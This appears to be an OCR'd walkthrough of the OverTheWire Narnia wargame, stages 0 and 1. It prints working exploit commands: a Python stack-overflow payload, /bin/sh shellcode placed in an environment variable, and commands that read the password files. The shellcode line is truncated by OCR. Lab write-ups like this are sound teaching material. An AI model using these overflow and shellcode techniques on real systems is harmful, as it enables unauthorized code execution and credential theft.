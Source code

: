 ● narnia0@melinda:/narnia$ ./narnia0
● Correct val's value from 0x41414141 -> 0xdeadbeef!
● Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
● buf: AAAAAAAAAAAAAAAAAAAABBBB
● val: 0x42424242
● WAY OFF!!!!
Great! Since the HEX value at “val” is 0x42424242 (42 translates to ASCII letter B), we know that
we are able to overwrite the value of “val” in memory, which was previously 0x41414141. All we
have to do now is overwrite this value in memory with 0xdeadbeef. The thing to remember is that
everything must be written to the stack in Little Endian format
(http://en.wikipedia.org/wiki/Endianness), meaning the last byte in 0xdeadbeef must be the first byte
pushed to the stack to overwrite the value of “val”. This is due to the First-In, Last-Out (FILO), or
Last-In, First-Out (LIFO) architecture of the target machine’s stack. So, to supply our 0xdeadbeef
value, we will have to write it as “\xef\xbe\xad\xde”. The easiest way to only supply HEX values and
execute our A’s is using python and piping it into our narnia0 example. Let’s see this in action:
● narnia0@melinda:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0
● Correct val's value from 0x41414141 -> 0xdeadbeef!
● Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA?
● val: 0xdeadbeef
Great x2! We now have written deadbeef in our “val” variable. How can we run shell commands? If
we go back to our C code, we see that if we match deadbeef, /bin/sh gets called. So let’s take our
python code and try to read the key located at /etc/narnia_pass/narnia1:
● narnia0@melinda:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat
/etc/narnia_pass/narnia1') | /narnia/narnia0
● Correct “val's” value from 0x41414141 -> 0xdeadbeef!
● Here is your chance: buf: AAAAAAAAAAAAAAAAAAAA?
● val: 0xdeadbeef
● [Answer to Stage 1]
Narnia 0 – Exploit
If you were successful, you have defeated stage 1 and earned the password to the narnia1 account. We
need to log out and log into the newly gathered account.
Stage 2
After you finish each stage, you get the password to the next account. Let’s log into stage 2 using the
narnia1 account we just obtained.
Log into stage 2:
● ssh narnia1@narnia.labs.overthewire.org
● Password: [Password From Narnia 1]
● cd /narnia/
● cat narnia1
Narnia 1 - Code
Reading the C code, we see a couple of things immediately:
● int (*ret)(); - is a pointer to ret to get it’s value
● getenv - takes in an environment variable EGG and stores it to the variable ret
● Calls ret()
If we can store shellcode into the environment variable EGG, then whatever shellcode is stored there
will be executed. The easy way to do this is to take the shellcode for /bin/sh and set it to an
environment variable EGG.
● We will use the shellcode for /bin/sh from this example:
http://shell-storm.org/shellcode/files/shellcode-811.php
● export EGG=`python -c 'print
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0● ./narnia1
● cat /etc/narnia_pass/narnia2
Narnia 1 - Exploit
We now have the password to the narnia2 account and can move on to stage 3.
Stage 3
For stage 3:
● ssh narnia2@narnia.labs.overthewire.org
● Password: [Password from Narnia 2]